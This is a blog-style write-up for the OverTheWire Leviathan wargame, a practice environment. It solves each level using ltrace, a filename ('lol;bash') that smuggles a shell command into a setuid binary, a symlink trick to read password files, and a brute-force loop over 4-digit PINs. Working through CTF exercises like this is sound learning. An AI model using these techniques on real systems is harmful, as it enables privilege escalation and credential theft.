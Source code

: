 ```yaml
---
layout: post
title:  OverTheWire Leviathan Write-Up
excerpt: "Write-up for OverTheWire Leviathan"
categories: overthewire wargames write-up

---
```


## Level 0

SSH into the server using the creds given. ```ls -a``` will show you a hidden directory, in it a ```bookmarks.html``` file. Cat and grep password to find the password.

## Level 1

In this level, you find a setuid binary ```check``` that checks a password and then does something. No help for usage. I ran ```strings``` but couldn't find much. I then ran ```ltrace```, and found it compared my input to a password ```sex```... kinky xD

So I entered that password and got a shell, ```whoami``` -> ```leviathan2```. Just do:
```bash
cat /etc/leviathan_pass/leviathan2
```

## Level 2

This one had a setuid binary that printed files for us, as ```leviathan3```. So, believing the program's prompt, I tried printing the password:
```bash
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```
:neutral_face:

Ran ```ltrace``` on it:
```bash
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4) = -1
puts("You cant have that file..."You cant have that file...
)  = 27
+++ exited (status 1) +++
```

Ran ```ltrace``` with ```/etc/passwd``` as input to ```printfile```
```bash
access("/etc/passwd", 4)            = 0
snprintf("/bin/cat /etc/passwd", 511, "/bin/cat %s", "/etc/passwd") = 20
geteuid()                           = 12002
geteuid()                           = 12002
setreuid(12002, 12002)              = 0
system("/bin/cat /etc/passwd"root:x:0:0:root:/root:/bin/bash
```

So, it checks for access rights, then passed the filename as a string to ```system(/bin/cat %s)```. So, if we name the file into an interesting bash command, we can execute it. Made a file ```lol;bash``` and passed it to the setuid binary and I got a shell as ```leviathan3```. Then just cat the password.
```bash
leviathan2@leviathan:~$ ./printfile /tmp/l3dr3/lol\;bash
/bin/cat: /tmp/l3dr3/lol: No such file or directory
leviathan3@leviathan:~$ cat /etc/leviathan_pass/leviathan3
<password_here>
```

## Level 3

This one was identical to Level 1, there was a setuid binary that gave us a shell when the correct password was entered. 
```bash
leviathan3@leviathan:~$ ltrace ./level3
__libc_start_main(0x8048618, 1, 0xffffd794, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")          = -1
printf("Enter the password> ")      = 20
fgets(Enter the password> a
"a\n", 256, 0xf7fc55a0)       = 0xffffd5a0
strcmp("a\n", "snlprintf\n")        = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)          = 19
+++ exited (status 0) +++
```

Just enter the correct input (```snlprintf```) and you get the password.

## Level 4

In this level, we had a hidden folder ```trash``` that contained a setuid binary that gave us binary output. Converted it to ASCII, and that was the password for the next level.

ltrace:
```bash
leviathan4@leviathan:~/.trash$ ltrace ./bin
__libc_start_main(0x80484bb, 1, 0xffffd774, 0x80485b0 <unfinished ...>
fopen("/etc/leviathan_pass/leviathan5", "r") = 0
+++ exited (status 255) +++
```

## Level 5

In this level, the setuid binary read a file ```/tmp/file.log``` and outputted its contents. I just entered ```cat /etc/leviathan_pass/leviathan6``` to that file, but i got back ```cat /etc/leviathan_pass/leviathan6``` as the output. No command injection. I ran ltrace on it and found the reason... it read the file letter by letter, then outputted each letter. So, I resorted to another method, creating a symbolic link:
```bash
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
<password_here>
```

This basically "links" the ```/tmp/file.log``` to ```/etc/leviathan_pass/leviathan6```, so when the setuid binary is run, it tries to open ```/tmp/file.log```, but since it is "linked" to ```/etc/leviathan_pass/leviathan6```, it opens and outputs the contents of the password file, revealing the password to us.

Sweet!
:smile:

## Level 6

Had to brute force a 4-digit pin in this one. Similar to Natas - Level 24. Just run:
```bash
for i in $(seq 0000 9999);do ./leviathan6 $i; done
```
and wait for a few seconds. You will eventually get a shell as user ```leviathan7```. You know what to do now...

## Level 7

End of the game, there is a file ```CONGRATULATIONS``` which says:
```
Well Done, you seem to have used a *nix system before, now try something more serious.
(Please don't post writeups, solutions or spoilers about the games on the web. Thank you!)
```

I am going to ignore the big sentence in the brackets xD... Nice and short wargame, onto the next one.




